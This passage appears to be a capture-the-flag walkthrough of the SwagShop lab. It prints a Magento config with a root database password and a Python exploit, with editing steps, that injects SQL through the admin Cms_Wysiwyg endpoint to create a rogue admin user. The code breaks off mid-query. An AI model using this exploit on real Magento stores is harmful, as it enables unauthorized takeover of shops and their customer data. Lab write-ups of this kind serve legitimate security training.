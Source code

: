 ```xml
                    <username><![CDATA[root]]></username>
                    <password><![CDATA[fMVWh7bDHpgZkyfqQXreTjU9]]></password>
                    <dbname><![CDATA[swagshop]]></dbname>
                    <initStatements><![CDATA[SET NAMES utf8]]></initStatements>
                    <model><![CDATA[mysql4]]></model>
                    <type><![CDATA[pdo_mysql]]></type>
                    <pdoType><![CDATA[]]></pdoType>
                    <active>1</active>
                </connection>
            </default_setup>
        </resources>
        <session_save><![CDATA[files]]></session_save>
    </global>
    <admin>
        <routers>
            <adminhtml>
                <args>
                    <frontName><![CDATA[admin]]></frontName>
                </args>
            </adminhtml>
        </routers>
    </admin>
</config>
```

---

## Initial Shell

### Create your own admin!

Searching for Magento in Exploit-DB shows various options. However, [this exploit](https://www.exploit-db.com/exploits/37977) will create a new admin user with the credentials we specify.

The script needs to be modified as the example below. You'll need to modify the below listed lines:

- Change the `target` variable to `http://10.10.10.140/index.php`
- Change the line `query = q.replace("\n", "").format(username="forme", password="forme")` to match whatever credentials you want to create.


```python
#!/usr/bin/python

import requests
import base64
import sys

target = "http://10.10.10.140/index.php"

if not target.startswith("http"):
    target = "http://" + target

if target.endswith("/"):
    target = target[:-1]

target_url = target + "/admin/Cms_Wysiwyg/directive/index/"

q="""
SET @SALT = 'rp';
SET @PASS = CONCAT(MD5(CONCAT( @SALT , '{password}') ), CONCAT(':', @SALT ));
SELECT @EXTRA := MAX(extra) FROM admin_user WHERE extra IS NOT NULL;
INSERT INTO `admin_user` (`firstname`, `lastname`,`email`,`username`,`password`,`created`,`lognum`,`reload_acl_flag`,`is_active`,`extra`,`rp_token`,`rp_token_created_at`) VALUES ('Firstname','Lastname','email@example.com','{username}',@PASS,NOW(),0,0,1,@EXTRA,NULL, NOW());
```